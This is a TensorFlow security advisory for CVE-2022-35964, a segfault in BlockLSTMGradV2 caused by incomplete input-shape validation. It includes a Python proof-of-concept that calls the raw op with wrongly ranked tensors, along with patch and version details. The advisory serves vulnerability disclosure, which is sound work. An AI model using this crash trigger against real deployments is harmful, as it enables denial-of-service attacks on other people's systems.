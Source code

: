 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-096.md
## TFSA-2022-096: Segfault in `BlockLSTMGradV2`

### CVE Number
CVE-2022-35964

### Impact
The implementation of `BlockLSTMGradV2` does not fully validate its inputs.
 - `wci`, `wcf`, `wco`, `b` must be rank 1
 - `w`, cs_prev`, `h_prev` must be rank 2
 - `x` must be rank 3
This results in a a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

use_peephole = False
seq_len_max = tf.constant(1, shape=[], dtype=tf.int64)
x = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
cs_prev = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
h_prev = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
w = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
wci = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
wcf = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
wco = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
b = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
i = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
cs = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
f = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
o = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
ci = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
co = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
h = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
cs_grad = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
h_grad = tf.constant(0.504355371, shape=[1,1,1], dtype=tf.float32)
tf.raw_ops.BlockLSTMGradV2(seq_len_max=seq_len_max, x=x, cs_prev=cs_prev, h_prev=h_prev, w=w, wci=wci, wcf=wcf, wco=wco, b=b, i=i, cs=cs, f=f, o=o, ci=ci, co=co, h=h, cs_grad=cs_grad, h_grad=h_grad, use_peephole=use_peephole)
```

### Patches
We have patched the issue in GitHub commit [2a458fc4866505be27c62f81474ecb2b870498fa](https://github.com/tensorflow/tensorflow/commit/2a458fc4866505be27c62f81474ecb2b870498fa).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
